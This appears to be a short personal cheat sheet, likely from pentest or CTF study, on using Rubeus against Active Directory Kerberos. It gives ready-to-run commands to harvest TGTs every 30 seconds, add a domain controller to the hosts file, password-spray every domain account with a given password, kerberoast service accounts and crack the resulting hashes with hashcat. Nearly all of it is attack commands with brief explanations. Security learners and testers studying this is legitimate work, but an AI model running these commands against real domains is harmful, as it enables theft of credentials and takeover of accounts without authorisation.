# Rubeus

## Harvesting & Brute-Forcing Tickets

***/!\\ This require to ssh or rdp into the machine***
This also requires to have Rubeus installed in the machine

## Harvesting tickets 
Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.

The following payload will tells Rubeus to harvest TGT every 30s
```cmd
Rubeus.exe harvest /interval:30
```

#### Brute-Forcing / Password-Spraying
***Brute-Forcing***:Try a bunch of password for one user account
***Password-Spaying***:Try one password for a bunch of known user account

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. 
```cmd
echo IP DOMAINNAME_NAME >> C:\Windows\System32\drivers\etc\hosts
```

Since we are logged into the machine, the following command will find every user account and spray the given password against them all.
```cmd
Rubeus.exe brute /password:Password1 /noticket
```

If there is a match, it will return the .kirbi TGT for that user, it looks like that : 
![[sortie_spray_kerbrute.png]]


## Kerberoast
Requirements
- Know user/password
- ADUsers with `Service Principal Names`

The following command line will dump Kerberos hash and return any kerberoastable users
```cmd
Rubeus.exe kerberoast
```

Copy the hash to our machine and crack it  
**Notes** :be careful of spaces and `/n` when copy-pasting
```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```
